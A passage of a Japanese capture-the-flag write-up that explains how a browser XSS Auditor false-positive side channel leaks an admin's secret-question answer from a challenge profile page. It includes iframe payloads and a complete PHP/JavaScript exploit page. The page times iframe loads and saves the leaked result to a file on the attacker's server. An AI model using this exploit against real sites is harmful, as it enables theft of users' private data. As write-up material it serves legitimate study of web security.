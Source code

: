 秘密の質問がプロフィールページに表示されているんですが、この変更を禁止する目的でJavaScriptが用いられているのでした！
このコードのみ実行できるようにする目的で、部分的なunsafe-inlineが許容されていたようです。

もし、この小さなJavaScriptコードを盗むことができれば、adminの好きなフルーツを知ることできそうです。
このページでは、`X-XSS-Protection: 1; mode=block`というヘッダが送信されていて、XSS Auditorがブロックモードで動作することが期待されていて、adminのブラウザもこれに従っているでしょう。
こういう場合に、XSS Auditorの誤検出を利用して、ページ内のスクリプトを盗む手法が存在します。

>【参考リンク】
> ブラウザのXSSフィルタを利用した情報窃取攻撃 | MBSD Blog
> https://www.mbsd.jp/blog/20160407_2.html

これを利用できそうです。（できました。）
以下のような2つのIFRAMEを表示させれば、どちらか一方をXSS Auditorがブロックするはずです。

```html
<iframe src='http://34.97.74.235:10033/profile?onchange="melon.checked=true;"'></iframe>
<iframe src='http://34.97.74.235:10033/profile?onchange="melon.checked=false;"'></iframe>
```

この性質を利用し、攻撃者のページで2つのIFRAMEを開かせて、どちらがブロックされたかを判別すれば良いですね。
IFRAME要素の`contentWindow.length`を見ると、XSS Auditorが作動したか否かを簡単に判別できるようでしたが、手元で試したときに何故かうまくいかなかったので（これは勘違いだったかもしれませんが）、`onload`が発火するまでの時間を計測するちょっと面倒な方法で判別しています。
XSS Auditorが作動すると、関連リソースの読み込みが走らないので、`onload`が早く呼ばれるはずです。

以下のように実装し、IFRAMEをプロフィールに埋め込んで、adminにアクセスさせました。
JavaScriptの記法モダンだったりレガシーだったりしていて、気持ち悪いんですが、終了ギリギリで解いていたためいろいろ焦っていて、見当違いの試行錯誤をしていた名残です。

```php
<?php
	if(array_key_exists("save", $_GET)){
		file_put_contents("save.txt", $_GET["save"] . PHP_EOL, FILE_APPEND | LOCK_EX);
		echo("OK!");
	}else{
?>
<html>
<body>
<script>

function test(key, val){
	return new Promise(function(resolve){
		const iframe = document.createElement("iframe");
		iframe.onload = function(){
			iframe.remove();
			resolve([key, val, new Date().getTime() - time]);
		};
		iframe.src = `http://34.97.74.235:10033/profile?onchange="${key}.checked=${val};"`;
		const time = new Date().getTime();
		document.body.appendChild(iframe);
	});
}

(async () => {
	const results = [];
	for(let i = 0; i < 1; i++){
		results.push([
			await test("mushroom", true),
			await test("mushroom", false),
		]);
	}
	location.href = "?save=" + results;
})();
</script>
</body>
</html>
<?php
	}
```